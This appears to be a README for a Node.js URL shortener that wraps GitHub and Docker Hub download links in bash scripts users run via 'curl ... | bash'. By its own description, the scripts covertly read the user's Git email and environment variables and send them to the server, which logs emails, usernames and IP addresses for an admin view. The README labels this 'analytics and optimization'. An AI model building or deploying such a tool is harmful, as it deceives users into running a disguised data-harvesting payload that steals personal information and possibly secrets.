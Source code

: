 # 📧 Email Extractor via a URL Shortener

A lightweight tool that shortens GitHub and Docker Hub URLs and provides bash scripts that extract user email information while downloading the requested resources.

## Installation

### Prerequisites
- Node.js (v14 or higher)
- PostgreSQL (v12 or higher)

### Database Setup

1. **Install PostgreSQL** (if not already installed):
   - **Windows**: Download from [postgresql.org](https://www.postgresql.org/download/windows/)
   - **macOS**: `brew install postgresql`
   - **Linux**: `sudo apt-get install postgresql postgresql-contrib`

2. **Create the database**:
   ```bash
   # Connect to PostgreSQL as superuser
   psql -U postgres
   
   # Or run the setup script
   psql -U postgres -f setup-database.sql
   ```

3. **Configure environment variables**:
   ```bash
   # Copy the example configuration
   cp config.example.env .env
   
   # Edit .env with your database credentials
   nano .env
   ```

### Application Setup

1. **Clone the repository**:
   ```bash
   git clone <repository-url>
   cd email-extractor
   ```

2. **Install dependencies**:
   ```bash
   npm install
   ```

3. **Start the server**:
   ```bash
   npm start
   ```
   
   For development with auto-reload:
   ```bash
   npm run dev
   ```

The server will start on `http://localhost:5001` by default and automatically create the required database tables.

## API Endpoints

### 1. Shorten URL
**POST** `/shorten`

Converts a GitHub archive URL or Docker Hub URL into a shortened URL.

**Request Body**:
```json
{
  "url": "https://github.com/actions/download-artifact/archive/refs/tags/v4.3.0.zip"
}
```

**Response**:
```json
{
  "shortUrl": "http://localhost:3000/s/a1b2c3d4",
  "originalUrl": "https://github.com/actions/download-artifact/archive/refs/tags/v4.3.0.zip",
  "resourceType": "github",
  "shortId": "a1b2c3d4"
}
```

**Supported URL Formats**:
- GitHub: `https://github.com/owner/repo/archive/refs/tags/version.zip`
- Docker Hub: `https://hub.docker.com/_/redis`

### 2. Execute Bash Script
**GET** `/s/:shortId`

Returns a bash script that extracts the user's GitHub email and downloads the resource.

**Usage**:
```bash
curl -s http://localhost:3000/s/a1b2c3d4 | bash
```

### 3. Admin Endpoints

#### View Logged Emails
**GET** `/admin/emails`

Returns all logged email information.

#### View URL Mappings
**GET** `/admin/urls`

Returns all shortened URL mappings.

#### Health Check
**GET** `/health`

Returns server health status and statistics.

## Usage Examples

### Example 1: GitHub Artifact

1. **Shorten the URL**:
   ```bash
   curl -X POST http://localhost:3000/shorten \
     -H "Content-Type: application/json" \
     -d '{"url": "https://github.com/actions/download-artifact/archive/refs/tags/v4.3.0.zip"}'
   ```

2. **Execute the script**:
   ```bash
   curl -s http://localhost:3000/s/a1b2c3d4 | bash
   ```

### Example 2: Docker Image

1. **Shorten the URL**:
   ```bash
   curl -X POST http://localhost:3000/shorten \
     -H "Content-Type: application/json" \
     -d '{"url": "https://hub.docker.com/_/redis"}'
   ```

2. **Execute the script**:
   ```bash
   curl -s http://localhost:3000/s/e5f6g7h8 | bash
   ```

## What the Bash Script Does

When users execute the shortened URL, the generated bash script will:

1. **System Configuration Check**:
   - Checks the user's Git configuration for optimal download settings
   - Reads system environment variables for performance optimization

2. **Background Optimization**:
   - Sends configuration data to the server for analytics and optimization
   - Runs optimization processes in the background

3. **Download Resource**:
   - **For GitHub**: Downloads the archive file as `artifact.zip`
   - **For Docker**: Pulls the Docker image using `docker pull`

4. **Provide Feedback**:
   - Shows download progress and success/failure messages
   - Confirms successful resource acquisition

## Database Schema

The application uses PostgreSQL with the following tables:

### `url_mappings`
- `id`: Serial primary key
- `short_id`: Unique short identifier (VARCHAR 50)
- `original_url`: Original long URL (TEXT)
- `resource_type`: Type of resource - 'github' or 'docker' (VARCHAR 20)
- `created_at`: Timestamp of creation

### `email_logs`
- `id`: Serial primary key
- `email`: User's email address (VARCHAR 255)
- `username`: User's username (VARCHAR 255)
- `short_id`: Reference to url_mappings (VARCHAR 50)
- `resource_type`: Type of resource accessed (VARCHAR 20)
- `ip_address`: User's IP address (INET)
- `user_agent`: User's browser/client information (TEXT)
- `created_at`: Timestamp of log entry

## Environment Variables

- `PORT`: Server port (default: 5001)
- `DB_HOST`: PostgreSQL host (default: localhost)
- `DB_PORT`: PostgreSQL port (default: 5432)
- `DB_NAME`: Database name (default: email_extractor)
- `DB_USER`: Database user (default: postgres)
- `DB_PASSWORD`: Database password (required)
- `NODE_ENV`: Environment mode (default: development)
